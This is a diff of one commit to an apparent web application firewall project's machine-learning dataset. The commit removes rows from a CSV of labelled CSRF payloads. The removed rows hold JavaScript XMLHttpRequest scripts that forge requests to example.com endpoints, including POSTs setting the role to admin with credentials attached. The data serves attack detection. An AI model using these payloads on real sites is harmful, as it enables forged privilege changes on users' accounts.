

Before and after one commit to sapnilcsecu/Web-application-firewall-WAF, a CSV file: sapnil_machinelearning/payload/CSRF_Injection.csv, drawn as a sheet; ↵ is a line break in a cell; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
solve the norm data detection

```diff
--- a/sapnil_machinelearning/payload/CSRF_Injection.csv
+++ b/sapnil_machinelearning/payload/CSRF_Injection.csv
-row 6:  | anom
-row 7: <script> ↵ var xhr = new XMLHttpRequest(); ↵ xhr.open("GET", "http://www.example.com/api/currentuser"); ↵ xhr.send(); ↵ </script> | anom
-row 8: <script> ↵ var xhr = new XMLHttpRequest(); ↵ xhr.open("POST", "http://www.example.com/api/setrole"); ↵ //application/json is not allowed in a simple request. text/plain is the default ↵ xhr.setRequestHeader("Content-Type", "text/plain"); ↵ //You will probably want to also try one or both of these ↵ //xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); ↵ //xhr.setRequestHeader("Content-Type", "multipart/form-data"); ↵ xhr.send('{"role":admin}'); ↵ </script> | anom
-row 9:  | anom
-row 10: <script> ↵ var xhr = new XMLHttpRequest(); ↵ xhr.open("POST", "http://www.example.com/api/setrole"); ↵ xhr.withCredentials = true; ↵ xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8"); ↵ xhr.send('{"role":admin}'); ↵ </script> | anom
```
Also changed, not shown: 10 other files.
